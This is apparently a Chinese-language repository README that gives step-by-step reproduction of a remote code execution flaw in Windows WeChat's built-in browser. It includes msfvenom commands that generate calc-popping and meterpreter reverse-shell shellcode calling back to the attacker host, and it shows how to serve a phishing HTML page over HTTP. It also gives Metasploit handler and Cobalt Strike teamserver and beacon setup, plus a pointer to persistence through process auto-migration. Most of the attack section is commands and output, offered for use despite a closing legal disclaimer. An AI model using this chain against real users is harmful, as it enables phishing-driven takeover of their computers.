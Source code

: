 



# WeChat 0day

## 漏洞介绍

攻击者可以通过在网页js插入攻击代码，用户一旦点击链接，Windows版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户PC。攻击者可以利用此漏洞执行任意代码，控制用户PC，存在极大的危害。

## 影响范围

Windows版微信: 小于等于3.2.1.141版本

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.130

Windows 10 x64

微信 3.2.1.134

其他版本不确定是否可以，请自测。

[微信历史版本下载](http://www.mydown.com/soft/103/473305603.shtml)

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*(这里说明一下，如下图，微信进程wechatweb.exe默认关闭沙盒，Chrome版本是53.0.2875.166，运行在x86架构上，故生成payload时须指定为x86架构)*

![image-20210419220004697]($imgs/image-20210419220004697.png)

### 1.2 制作html钓鱼文件

将生成的代码放入WeChat.js中shellcode[]中。

![image-20210419221432458]($imgs/image-20210419221432458.png)

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功执行计算器命令。

http://192.168.43.232/WeChat.html

![image-20210419220935481]($imgs/image-20210419220935481.png)



## 2. 利用Metasploit反弹shell

### 2.1 shellcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入WeChat.js中shellcode[]里。

![image-20210419224510744]($imgs/image-20210419224510744.png)

### 2.2 msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

### 2.3 反弹shell

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。

http://192.168.43.232/WeChat.html

<img src="$imgs/image-20210419224819886.png" alt="image-20210419224819886" style="zoom:50%;" />

![image-20210419224724224]($imgs/image-20210419224724224.png)

## 3. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

### <img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom: 50%;" />

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

![image-20210419225513410]($imgs/image-20210419225513410.png)

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里不勾选x64，因为微信进程试运行在x86架构上的。**

<img src="$imgs/image-20210419230142555.png" alt="image-20210419230142555" style="zoom:50%;" />

![image-20210419230351333]($imgs/image-20210419230351333.png)

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419230559917]($imgs/image-20210419230559917.png)

**2.2.3 将引号里的代码复制到WeChat.js文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419230813043]($imgs/image-20210419230813043.png)



**2.2.4 将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。**

**http://192.168.43.232/WeChat.html**

![image-20210419231021319]($imgs/image-20210419231021319.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。

![image-20210419231230251]($imgs/image-20210419231230251.png)

## 写在最后

都说这个漏洞比较鸡肋，必须保证微信内置浏览器一直打开状态才不会掉线，如果把它关闭就会直接掉线。不过看到大佬写得一篇博客：“关于微信内置浏览器 达到持久控制”，可以解决上述问题：

*1. 加载自定义 malleable C2 配置文件 从而达到主机一上线跳默认为 1 秒，就可自动在目标打开浏览器短暂的时间里尽快转移进程*

*2. 加载一个 Cobalt Strike automigrate 自动迁移进程的插件从而达到目标上线后会话自动迁移到其他进程从而我们就可以脱离微信浏览器的束缚。*

由于文章可能比较敏感，该篇博客已被删除，幸好我留了一手，保存了网页，具体的操作可以参考我保存的网页，下载到本地用浏览器打开"关于微信内置浏览器 达到持久控制 _ Liqun.html"，即可看到，亲测可以成功，感兴趣的朋友也可以尝试一下。



**至此WeChat-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**

